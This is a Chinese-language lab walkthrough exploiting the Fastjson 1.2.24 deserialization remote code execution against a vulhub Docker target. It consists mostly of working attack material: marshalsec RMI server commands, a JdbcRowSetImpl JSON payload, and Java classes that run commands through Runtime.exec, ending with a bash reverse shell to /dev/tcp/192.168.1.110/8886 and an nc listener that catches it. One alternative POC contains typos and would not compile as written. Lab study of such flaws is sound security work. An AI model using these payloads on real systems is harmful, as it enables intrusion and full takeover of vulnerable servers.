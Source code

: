 # 1.2.24-rce

### 工具环境准备

下载marshalsec

{% embed url="https://github.com/mbechler/marshalsec" %}

下载好以后cd到marshalsec目录mvn编译它，会生成一个名为target的文件夹，开启rmi服务的工具在里面，如果没有mvn命令那用apt命令安装它

{% code lineNumbers="true" %}
```
apt install maven
mvn clean package -DskipTests
```
{% endcode %}

将这个POC保存到攻击机的目录，我这里将它命名为TouchFile.java

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译这个POC，并在当前目录用python开启一个http服务

{% code lineNumbers="true" %}
```
javac TouchFile.java
python3 -m http.server 8881
```
{% endcode %}

进入到marshalsec的target目录中在攻击机中开启rmi服务，指定加载类，并监听端口2345

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# ./java -cp ../../marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.1.110:8881/#TouchFile 2345
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 2345
```

将以下的payload放入到请求包单中发送请求，记得将请求包修改成POST请求

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.110:2345/TouchFile",
        "autoCommit":true
    }
}
```

Burp发送请求

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

可以看到RMI服务以及python请求都有相应，说明请求没有问题

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

POC中的命令是在靶机tmp目录创建一个success文件夹，我们进入到靶机的docker容器当中查看以下以确定没有任何问题

```
root@debian:~/vulhub/fastjson/1.2.24-rce# docker exec -it badb1f766db0 /bin/bash
root@badb1f766db0:/# ls
bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
root@badb1f766db0:/# cd /tmp/
root@badb1f766db0:/tmp# ls
hsperfdata_root  success  tomcat-docbase.9077591842716910581.8090  tomcat.5885354487546599121.8090
```

可以看见文件创建成功，下面再尝试一下dnslog的方式来验证漏洞，将上面的POC命令修改以下

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "www.k1mdihfsa4d4jv2kh73z8balmcs3g84x.oastify.com"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

将原来的class文件删除重新编译，我这里用的是Burp自带的Dnslog平台，别忘记将请求包改成POST，发送请求，OK 有了响应，（如果有问题就重新运行一下rmi服务和python的http服务）

查看Burp的Dnslog平台，有了回显

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

去生成一个反弹shell的payload

```
bash -i >& /dev/tcp/192.168.1.110/8886 0>&1
```

{% embed url="https://www.revshells.com/" %}

修改POC并重新编译

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash", "-c","bash -i >& /dev/tcp/192.168.1.110/8886 0>&1"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

也可以用下面这个POC，作用都是一样是的

```
/*
 * getshell.java
 * 将其编译后生成Exploit.class
 * 上传到HTTP服务器
 */
public class GetShell{
    public GetShell(){
        Runtime.getRuntime.exec("bash -i >& /dev/tcp/192.168.1.110/8886 0>&1");//监听主机的IP和端口号
    }
    public static void main(Sring[] args){
        GetShell e = new GetShell();
    }
}
//直接使用静态代码块亦可
```

nc监听8886端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 8886
listening on [any] 8886 ...
```

Brup发送请求，

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

查看nc的监听，返回了一个shell

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>
